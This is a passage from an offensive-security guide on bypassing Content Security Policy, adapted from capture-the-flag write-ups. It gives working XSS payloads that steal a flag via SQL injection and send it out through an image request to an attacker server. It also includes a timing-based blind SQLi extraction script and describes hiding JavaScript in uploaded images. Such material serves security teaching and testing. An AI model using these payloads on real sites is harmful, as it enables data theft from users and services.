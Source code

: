 ### Bypass CSP with dangling markup

Read [how here](dangling-markup-html-scriptless-injection.md).

### 'unsafe-inline'; img-src \*; via XSS

```text
default-src 'self' 'unsafe-inline'; img-src *;
```

`'unsafe-inline'` means that you can execute any script inside the code \(XSS can execute code\) and `img-src *` means that you can use in the webpage any image from any resource.

You can bypass this CSP exfiltrating the data via images \(in this occasion the XSS abuses a CSRF where a page accessible by the bot contains a SQLi, and extract the flag via an image\):

```javascript
<script>fetch('http://x-oracle-v0.nn9ed.ka0labs.org/admin/search/x%27%20union%20select%20flag%20from%20challenge%23').then(_=>_.text()).then(_=>new Image().src='http://PLAYER_SERVER/?'+_)</script>
```

From: [https://github.com/ka0labs/ctf-writeups/tree/master/2019/nn9ed/x-oracle](https://github.com/ka0labs/ctf-writeups/tree/master/2019/nn9ed/x-oracle)

You could also abuse this configuration to **load javascript code inserted inside an image**. If for example, the page allows to load images from twitter. You could **craft** an **special image**, **upload** it to twitter and abuse the "**unsafe-inline**" to **execute**a JS code \(as a regular XSS\) that will **load** the **image**, **extract** the **JS** from it and **execute** **it**: [https://www.secjuice.com/hiding-javascript-in-png-csp-bypass/](https://www.secjuice.com/hiding-javascript-in-png-csp-bypass/)

### img-src \*; via XSS \(iframe\) - Time attack

Notice the lack of the directive `'unsafe-inline'`  
This time you can make the victim **load** a page in **your control** via **XSS** with a `<iframe`. This time you are going to make the victim access the page from where you want to extract information \(**CSRF**\). You cannot access the content of the page, but if somehow you can **control the time the page needs to load** you can extract the information you need.

This time a **flag** is going to be extracted, whenever a **char is correctly guessed** via SQLi the **response** takes **more time** due to the sleep function. Then, you will be able to extract the flag:

```javascript
<iframe name=f id=g></iframe> // The bot will load an URL with the payload
<script>
let host = "http://x-oracle-v1.nn9ed.ka0labs.org";
function gen(x) {
    x = escape(x.replace(/_/g, '\\_'));
    return `${host}/admin/search/x'union%20select(1)from%20challenge%20where%20flag%20like%20'${x}%25'and%201=sleep(0.1)%23`; 
}

function gen2(x) {
    x = escape(x);
    return `${host}/admin/search/x'union%20select(1)from%20challenge%20where%20flag='${x}'and%201=sleep(0.1)%23`;
}

async function query(word, end=false) { 
    let h = performance.now();
    f.location = (end ? gen2(word) : gen(word));
    await new Promise(r => {
        g.onload = r; 
    });
    let diff = performance.now() - h;
    return diff > 300;
}
```